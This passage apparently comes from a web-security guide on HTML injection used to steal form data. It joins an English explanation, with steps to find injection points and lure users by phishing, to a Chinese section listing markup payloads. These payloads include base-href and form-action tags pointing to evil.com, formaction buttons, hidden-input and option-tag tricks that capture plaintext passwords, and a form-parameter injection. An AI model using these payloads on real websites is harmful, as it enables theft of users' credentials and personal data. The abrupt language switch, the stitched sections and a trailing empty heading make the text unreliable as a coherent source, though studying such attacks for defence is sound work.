 When a user interacts with the injected form, their input is sent to the attacker's server instead of the legitimate website's server. This allows the attacker to steal sensitive information such as usernames, passwords, credit card details, or any other data entered into the form.

To perform this attack, the attacker needs to identify a vulnerable website and find a suitable location to inject their code. This can be done by analyzing the website's source code or using tools like Burp Suite to intercept and modify the website's responses.

Once the injection point is identified, the attacker can craft their malicious HTML code and inject it into the vulnerable website. The injected code should include a form that mimics the original website's form, ensuring that it looks legitimate and doesn't raise suspicion.

To make the attack more effective, the attacker can also use techniques like phishing to trick users into interacting with the injected form. This can be done by sending targeted emails or using social engineering techniques to lure users to the malicious website.

It is important for website developers to implement proper input validation and sanitization techniques to prevent this type of attack. Regular security audits and vulnerability assessments can also help identify and mitigate any potential vulnerabilities that could be exploited by attackers.
```markup
<base href='http://evil.com/'>
```
然后，将数据发送到路径的表单（如`<form action='update_profile.php'>`）将把数据发送到恶意域。

### 偷取表单 2

设置一个表单头：`<form action='http://evil.com/log_steal'>`，这将覆盖下一个表单头，并且表单中的所有数据将被发送给攻击者。

### 偷取表单 3

按钮可以使用属性"formaction"更改表单信息将要发送到的URL：
```markup
<button name=xss type=submit formaction='https://google.com'>I get consumed!
```
攻击者可以利用这个来窃取信息。

### 窃取明文密码 2

使用前面提到的最新技术来窃取表单（注入新的表单头），然后可以注入一个新的输入字段：
```markup
<input type='hidden' name='review_body' value="
```
而这个输入字段将包含HTML中双引号之间的所有内容和下一个双引号。这种攻击将"_**窃取明文密码**_"与"_**窃取表单2**_"混合在一起。

您可以通过注入一个表单和一个`<option>`标签来执行相同的操作。直到找到一个闭合的`</option>`标签之前的所有数据都将被发送：
```markup
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```
### 表单参数注入

您可以更改表单的路径并插入新的值，以执行意外的操作：
```markup
<form action='/change_settings.php'>
<input type='hidden' name='invite_user'
value='fredmbogo'>                                        ← Injected lines

<form action="/change_settings.php">                        ← Existing form (ignored by the parser)
...
<input type="text" name="invite_user" value="">             ← Subverted field
...
<input type="hidden" name="xsrf_token" value="12345">
...
</form>
```
### 通过noscript窃取明文密码
